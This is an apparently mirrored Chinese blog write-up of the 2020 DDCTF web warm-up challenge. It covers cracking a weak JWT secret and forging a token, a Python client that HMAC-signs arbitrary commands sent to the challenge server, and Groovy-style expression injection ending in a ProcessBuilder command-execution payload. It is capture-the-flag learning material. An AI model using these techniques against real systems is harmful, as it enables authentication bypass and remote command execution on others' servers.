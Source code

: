 <!--yml
category: 未分类
date: 2022-04-26 14:46:27
-->

# 2020年DDCTF-web签到题题解_slug01sh的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_43085611/article/details/108587268](https://blog.csdn.net/qq_43085611/article/details/108587268)

![](img/788aea1d1aff09f7f6c24e771ff7a283.png)
2020 年 DDCTF 中 web 签到题题解。（web🐶只做出来这道题，第二天有事）

# web签到题

## 步骤1：JWT绕过

图1:题目给定初始条件。
![](img/12a241d5379b4bcd77415ea246d6191e.png)

向 api 发送请求，得到响应如下，data 的数据格式和 jwt 相似，猜测为 jwt 绕过。

```
{
	"code": 0,
	"message": "success",
	"data": 		"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyTmFtZSI6InN0ciIsInB3ZCI6InN0ciIsInVzZXJSb2xlIjoiR1VFU1QiLCJleHAiOjE1OTkyODY0NzB9.z-i_zjudu5yejiFbCnE9P5NIjOJE61Bzpw75OX1SHmg"
} 
```

我只做过一次 JWT 绕过的题目，并且当时记笔记的习惯不好，早已忘记。于是先查询了一下 JWT 相关原理和基本步骤，初略指导该漏洞可以使用 5 种方式进行攻击。考虑从最简单的暴力破解 key 开始尝试，使用 [Junay 大佬博客](https://delcoding.github.io/2018/03/jwt-bypass/)推荐的[工具](https://github.com/brendan-rius/c-jwt-cracker)进行尝试，爆破出密码为 str（不同的人密码可能不同），然后到 [https://jwt.io/](https://jwt.io) 进行 jwt 伪造，将伪造后的 jwt 发送到 auth interface 得到 client 下载链接。

图2:爆破得到的密码
![](img/d7b9d7f8cbb1a83822f042bd9c156237.png)

## 步骤2：逆向绕过客户端

获得 client 后，由队里的其他大佬进行逆向分析，并制作模拟客户端的工具。

```
 from base64 import b64encode
import hmac
import hashlib
from time import time
import requests
import json
from pprint import pprint

while True:
    cmd = input()  

    appkey = "DDCTFWithYou"
    time_stamp = str(int(time()))
    strToSign = cmd + '|' + time_stamp

    sha = hmac.new(
        bytes(appkey, encoding='utf-8'),
        bytes(strToSign, encoding='utf-8'),
        digestmod=hashlib.sha256
    ).digest()
    sign = bytes.decode(
        b64encode(sha)
    )

    url = "http://117.51.136.197/server/command"
    data = {
        "signature": sign,
        "command": cmd,
        "timestamp": time_stamp
    }
    res = requests.post(
        url=url,
        data=json.dumps(data)
    )
    pprint(res.text) 
```

## 步骤3：命令执行

判断后端语言，构造 payload。首先利用语言的运算符测试是否执行，总结存在哪些运算符，然后测试出字符串可以使用 length 函数，猜测可能该语言为「面向对象语言」，从逻辑运算符 != 和 length 函数猜测可能是 [Java 衍生的语言](https://coolshell.cn/articles/2631.html)（输入的命令以 # 定义变量，可使用 #a=1 测试）——[**Groovy**](http://groovy.codehaus.org/)，但是始终无法完美匹配。最终在一篇[博客](https://zhuanlan.kanxue.com/article-12714.htm)找到突破点，文章中的很多情景很符合该题目，测试 java.lang.String.class.forName("java.lang.Runtime”) 时出现 command is evil，断定为 Groovy。于是便开始寻找 Java 命令注入代码，[网上大多数的命令执行](https://y4er.com/post/java-exec-command/)大都是使用 Runtime 类或 Processbuider 类，但都是多行代码的形式，[CVE-2015-1427 的 exploit](https://github.com/t0kx/exploit-CVE-2015-1427/blob/master/exploit.sh) 也无法执行。网上的命名只有一行为命令执行，我们猜测可以采用乱码方式进行回显，然后在本地解码，然后从 IDEA 自动补全找到 readAllBytes 函数，将数据读出。然后把读出的数据使用 Base64 解码就得到命令执行的结果。

图3：编程语言分类
![](img/7d23511d15c806f6efe2db00715468dc.png)

code：一些关键性的测试

```
1 == true

{1}
'abc'.length()
'abc'.concat('d')
'12 '.trim()
'1234'.getBytes()
'hello'.startsWith('1')
new ProcessBuilder("ls").start().getInputStream().readAllBytes() 
```

图4：使用 readAllBytes 读出数据
![image-20200913234130453](img/deb96f2877218f3fd2e5242debab5856.png)

将读出的数据使用 base64 解开即可。